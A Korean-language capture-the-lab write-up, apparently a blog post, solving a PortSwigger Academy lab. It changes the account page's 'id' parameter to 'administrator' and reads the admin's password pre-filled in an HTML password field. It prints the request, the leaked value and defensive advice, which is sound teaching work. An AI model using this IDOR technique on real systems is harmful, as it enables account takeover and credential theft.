



+++
url = '/write-up/portswigger/access-control/write-up-portswigger---user-id-controlled-by-request-parameter-with-password-disclosure/'
date = '2026-07-03T18:00:00+09:00'
draft = false
title = '[Write-up] PortSwigger - User ID controlled by request parameter with password disclosure'
summary = "비밀번호가 input value에 미리 채워지는 계정 페이지를 IDOR로 열어 관리자 비밀번호를 탈취하는 풀이"
toc = true
tags = ["Access Control", "IDOR", "Information Disclosure", "PortSwigger", "Apprentice"]
+++

---

## 문제 분석

> **난이도**: `APPRENTICE`  
> **Lab**: [User ID controlled by request parameter with password disclosure](https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-password-disclosure)

> 

현재 사용자의 기존 비밀번호가 마스킹되어 미리 채워진 계정 페이지가 있다. 관리자 비밀번호를 찾아 `carlos` 사용자를 삭제하면 문제가 해결된다. 실습 계정은 `wiener:peter`다.

### Access Control 진단

실습 계정으로 로그인해 계정 페이지에 들어가면 비밀번호 변경 폼이 있다. 응답 본문을 확인한다.

```html
<form class="login-form" action="/my-account/change-password" method="POST">
  <br/>
  <label>Password</label>
  <input required type="hidden" name="csrf" value="tP4dXeZ7mu64qXWSTmECDKiCHu6J18xD">
  <input required type=password name=password value='peter'/>
  <button class='button' type='submit'> Update password </button>
</form>
```

화면에는 비밀번호가 점(●●●●●)으로 마스킹되어 보이지만, 그것은 `type=password`가 만드는 표시 효과일 뿐이다. HTML 소스를 보면 `value='peter'` — **실제 비밀번호가 평문으로 input의 value 속성에 채워져 있다.** 마스킹은 눈에만 적용될 뿐 전송된 바이트에는 값이 그대로 들어 있다.

이 페이지가 어떤 사용자를 보여 줄지는 `id` 파라미터가 결정한다는 점이 앞선 IDOR 랩들과 같다. 그렇다면 `id`를 `administrator`로 바꾸면 관리자의 미리 채워진 비밀번호가 소스에 노출될 것이다.

---

## 익스플로잇

계정 페이지 요청의 `id`를 `administrator`로 지정해 접근한다.

```http
GET /my-account?id=administrator HTTP/2
Host: <lab-id>.web-security-academy.net
Cookie: session=<session>
```

응답 본문에서 관리자의 비밀번호가 그대로 노출된다.

```html
<form class="login-form" action="/my-account/change-password" method="POST">
    <br/>
    <label>Password</label>
    <input required type="hidden" name="csrf" value="tP4dXeZ7mu64qXWSTmECDKiCHu6J18xD">
    <input required type=password name=password value='7uapw6mme4d8qx3h9kbx'/>
    <button class='button' type='submit'> Update password </button>
</form>
```

획득한 비밀번호 `7uapw6mme4d8qx3h9kbx`로 `administrator` 계정에 로그인하면 관리자 패널에 접근할 수 있다.



`carlos` 사용자를 삭제하면 문제가 해결된다.



---

## 정리

이 랩은 두 결함이 겹쳐 계정 탈취까지 이어진 사례다. 하나는 IDOR — `id` 파라미터로 남의 계정 페이지를 열 수 있다는 것. 다른 하나는 정보 노출 — 그 페이지가 비밀번호를 평문으로 소스에 실어 보낸다는 것. 각각만으로도 결함이지만, 결합되면 임의 사용자의 비밀번호를 읽는 프리미티브가 된다.

특히 이 랩은 앞선 IDOR들이 수평 상승에 그친 것과 달리 **수평→수직 상승**으로 넘어간다. `administrator`도 결국 하나의 사용자이므로 IDOR의 대상이 될 수 있고, 그 계정을 탈취하면 관리자 권한 전체를 얻는다. 같은 등급 사이의 접근처럼 보이던 결함이 관리자를 겨누는 순간 시스템 전체의 장악으로 확장된다.

주목할 부분은 마스킹에 대한 오해다. `type=password`는 입력 필드를 화면에서 가려 줄 뿐, 값의 전송이나 저장을 보호하지 않는다. 비밀번호를 폼에 미리 채워 넣는 설계 자체가 문제다 — 사용자에게 현재 비밀번호를 다시 보여 줄 이유는 없으며, 값을 채우지 않아도 변경 기능은 동작한다.

진단에서는 계정·설정 페이지의 HTML 소스에서 `type=password` 필드의 `value` 속성, 숨은 필드, 주석에 남은 민감 값을 확인하고, 그 페이지가 `id` 같은 파라미터로 대상을 바꿀 수 있는지 함께 본다. 방어는 비밀번호·토큰 등 민감 값을 응답에 절대 싣지 않고, 계정 페이지의 대상을 세션으로만 결정하는 것이다. IDOR 기본형은 [User ID controlled by request parameter](/write-up/portswigger/access-control/write-up-portswigger---user-id-controlled-by-request-parameter/)를 참고한다.
